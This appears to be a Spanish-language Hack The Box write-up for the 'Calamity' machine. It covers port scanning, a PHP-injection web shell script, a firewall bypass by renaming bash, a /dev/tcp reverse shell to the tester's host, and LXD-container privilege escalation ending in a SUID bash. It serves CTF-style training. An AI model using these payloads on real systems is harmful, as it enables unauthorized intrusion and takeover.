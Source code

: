 ```yaml
---
title : Máquina|Calamity|HTB|LXD
published : True
---
```

<div class="contenedor">
    <img src="imgs/Calamity/Calamity0.png" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil. </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: l
ightblue;">Calamity</a></p>
    </div>
</div>

 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27
>
<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27
>
<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.
>
<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27
>
<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27
>
<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.
>
<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.
>
<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.


```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py
>
<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?
>
<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'
>
<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445
>
<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```
>
<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```
>
<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.
>
<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.
>
<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.
>
<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.
>
<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.
>
<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.
>
<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.
>
<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>
>
<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.
>
<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.
>
<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le data errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
>
<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh
>
<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a
>
<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.
> 
>
<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.
>
<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.
>
<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.
>
<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.
>
<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root
>
<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.
>
<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.
>
<img src="imgs/Calamity/Calamity35.png">
